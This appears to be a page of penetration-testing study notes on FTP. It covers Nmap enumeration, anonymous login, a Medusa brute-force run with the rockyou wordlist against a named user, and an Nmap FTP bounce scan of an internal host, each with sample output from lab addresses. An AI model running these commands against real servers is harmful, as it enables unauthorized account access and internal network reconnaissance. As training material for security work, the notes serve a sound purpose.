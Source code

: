 ## Enumeration
* `Nmap` default scripts `-sC` includes the [ftp-anon](https://nmap.org/nsedoc/scripts/ftp-anon.html)
*  `-sV` provides interesting information about FTP services, such as the FTP banner, which often includes the version name
* Use the `ftp` client or `nc` to interact with the FTP service

```sh
 sudo nmap -sC -sV -p 21 192.168.2.142 

Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-10 22:04 EDT
Nmap scan report for 192.168.2.142
Host is up (0.00054s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--   1 1170     924            31 Mar 28  2001 .banner
| d--x--x--x   2 root     root         1024 Jan 14  2002 bin
| d--x--x--x   2 root     root         1024 Aug 10  1999 etc
| drwxr-srwt   2 1170     924          2048 Jul 19 18:48 incoming [NSE: writeable]
| d--x--x--x   2 root     root         1024 Jan 14  2002 lib
| drwxr-sr-x   2 1170     924          1024 Aug  5  2004 pub
|_Only 6 shown. Use --script-args ftp-anon.maxlist=-1 to see all.
```

## Misconfigurations
*  `anonymous` username and no password (Anonymous login)

#### Anonymous Authentication
```sh
ftp 192.168.2.142    
                     
Connected to 192.168.2.142.
220 (vsFTPd 2.3.4)
Name (192.168.2.142:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0               9 Aug 12 16:51 test.txt
226 Directory send OK.
```

* Use `get` for single or `mget` to download multiple files
* For uploads, we can use `put` or `mput` similar

#### Brute Forcing
* If there's no anonymous login we can try to brute-force the login

**Note:** Although we may find services vulnerable to brute force, most applications today prevent these types of attacks. A more effective method is Password Spraying.

#### Brute Forcing with Medusa
```sh
medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp 
                                                             
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>                                                      
ACCOUNT CHECK: [ftp] Host: 10.129.203.7 (1 of 1, 0 complete) User: fiona (1 of 1, 0 complete) Password: 123456 (1 of 14344392 complete)
ACCOUNT CHECK: [ftp] Host: 10.129.203.7 (1 of 1, 0 complete) User: fiona (1 of 1, 0 complete) Password: 12345 (2 of 14344392 complete)
ACCOUNT CHECK: [ftp] Host: 10.129.203.7 (1 of 1, 0 complete) User: fiona (1 of 1, 0 complete) Password: 123456789 (3 of 14344392 complete)
ACCOUNT FOUND: [ftp] Host: 10.129.203.7 User: fiona Password: family [SUCCESS]
```

#### FTP Bounce Attack
* A network attack that uses FTP servers to deliver outbound traffic to another device on the network
* Attacker uses a `PORT` command to trick the FTP connection into running commands and getting information from a device other than the intended server
* Example
	* `FTP_DMZ` exposed to the internet
	* Another device within the same network, `Internal_DMZ`, is not exposed to the internet
	* We can use the connection to the `FTP_DMZ` server to scan `Internal_DMZ` using the FTP Bounce attack and obtain information about the server's open ports
* Use `-b` flag in `Nmap`

```sh
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2

Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-27 04:55 EDT
Resolved FTP bounce attack proxy to 10.10.110.213 (10.10.110.213).
Attempting connection to ftp://anonymous:password@10.10.110.213:21
Connected:220 (vsFTPd 3.0.3)
Login credentials accepted by FTP server!
Initiating Bounce Scan at 04:55
FTP command misalignment detected ... correcting.
Completed Bounce Scan at 04:55, 0.54s elapsed (1 total ports)
Nmap scan report for 172.17.0.2
Host is up.

PORT   STATE  SERVICE
80/tcp open http

<SNIP>
```

**Note:** Modern FTP servers include protections that, by default, prevent this type of attack, but if these features are misconfigured in modern-day FTP servers, the server can become vulnerable to an FTP Bounce attack.

